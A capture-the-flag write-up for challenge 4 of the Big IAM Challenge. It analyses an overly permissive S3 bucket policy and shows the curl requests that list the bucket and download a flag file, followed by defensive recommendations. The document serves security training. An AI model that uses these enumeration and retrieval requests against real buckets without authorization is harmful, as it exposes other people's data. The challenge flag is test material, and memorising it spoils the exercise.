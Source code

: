 # Writeup for Big IAM Challenge: Challenge 4

Challenge 4

Challenge Statement
The goal of Challenge 4 is to exploit an overly permissive IAM policy on an Amazon S3 bucket. Although the challenge claims that only a specific admin user can access the bucket, the policy contains a flaw that allows unauthorized users to list and retrieve objects. This challenge highlights the risks of misconfigured S3 bucket permissions.

## IAM Policy

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                },
                "ForAllValues:StringLike": {
                    "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
                }
            }
        }
    ]
}
```

### Short analysis about the IAM policy

```
What do I have access to?

The policy allows anyone (Principal: "*") to retrieve objects from the bucket using s3:GetObject.
The policy also allows anyone to list the bucket’s contents using s3:ListBucket, but only under the condition that:
The prefix of the object starts with files/.
The requester’s AWS IAM ARN matches arn:aws:iam::133713371337:user/admin.
What don’t I have access to?

The policy intends to restrict s3:ListBucket to only the admin user using the aws:PrincipalArn condition. However, there are no such restrictions on s3:GetObject, which allows anyone to retrieve objects if they know the file names.
What do I find interesting?

Even though listing files is restricted, object retrieval is completely open due to the lack of conditions on s3:GetObject.
If I can guess or infer file names, I can directly download files from the bucket.
```

## Solution

Step 1: Attempt to List Files
I first attempted to list the files in the bucket using a cURL request:

```
curl "https://s3.amazonaws.com/thebigiamchallenge-admin-storage-abf1321?prefix=files/"
```

The response contained a list of objects in XML format:
 ```
<?xml version="1.0" encoding="UTF-8"?>
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
    <Name>thebigiamchallenge-admin-storage-abf1321</Name>
    <Prefix>files/</Prefix>
    <Contents>
        <Key>files/flag-as-admin.txt</Key>
        <LastModified>2023-06-07T19:15:43.000Z</LastModified>
        <ETag>"e365cfa7365164c05d7a9c209c4d8514"</ETag>
        <Size>42</Size>
        <StorageClass>STANDARD</StorageClass>
    </Contents>
    <Contents>
        <Key>files/logo-admin.png</Key>
        <LastModified>2023-06-08T19:20:01.000Z</LastModified>
        <ETag>"c57e95e6d6c138818bf38daac6216356"</ETag>
        <Size>81889</Size>
        <StorageClass>STANDARD</StorageClass>
    </Contents>
</ListBucketResult>

 ```

Step 2: Retrieve the Flag File
With the file name files/flag-as-admin.txt discovered, I downloaded it using another cURL request:

```
curl "https://s3.amazonaws.com/thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt"

```

The response contained the flag:

```
{wiz:principal-arn-is-not-what-you-think}
```

### Step 3: Submitted the Flag

Finally, I inserted the flag found in the "Insert flag here" textbox and was redirected to the success screen.

## Reflection

- **What was your approach?**
 I identified a flaw in the IAM policy where s3:GetObject had no restrictions, allowing me to directly download files once I knew their 
 names. Using the ability to list the bucket's contents, I was able to enumerate the filenames, making it easy to retrieve the flag.
 
- **What was the biggest challenge?**
 The policy appeared to restrict access to admin users, but in reality, public access was unintentionally granted due to the missing 
 conditions on s3:GetObject.
 
- **How did you overcome the challenges?**
 I realized that the lack of restrictions on s3:GetObject made it possible to directly download files from the bucket if I could enumerate 
 them. By listing the files with the s3:ListBucket action, I was able to retrieve the flag.
 
- **What led to the breakthrough?**
 Discovering that the s3:ListBucket was still accessible despite the restriction.
 Realizing that even if listing was blocked, guessing filenames like flag-as-admin.txt would still work because object retrieval was 
 unrestricted.

**On the Blue Side: Defensive Measures**  
  - Restrict the Principal: Replace Principal: "*" with specific AWS roles or accounts to prevent unauthorized access.
  - Add conditions to s3:GetObject: Ensure that the same conditions used for s3:ListBucket apply to s3:GetObject.
  - Block public access at the bucket level: Use AWS S3’s Block Public Access feature to prevent unintended public exposure.
  - Enable access logging: Monitor requests to identify unexpected access patterns.
  - Use signed URLs for access: Instead of allowing unrestricted s3:GetObject access, require temporary signed URLs that expire after a 
    short period.
  - Regularly audit bucket policies: Continuously review and test IAM policies to prevent misconfigurations.

This challenge highlights how misconfigured IAM policies can lead to unintended public access. Even though listing was restricted, allowing open object retrieval still exposed sensitive files. Proper IAM policy configurations are essential for securing AWS resources.

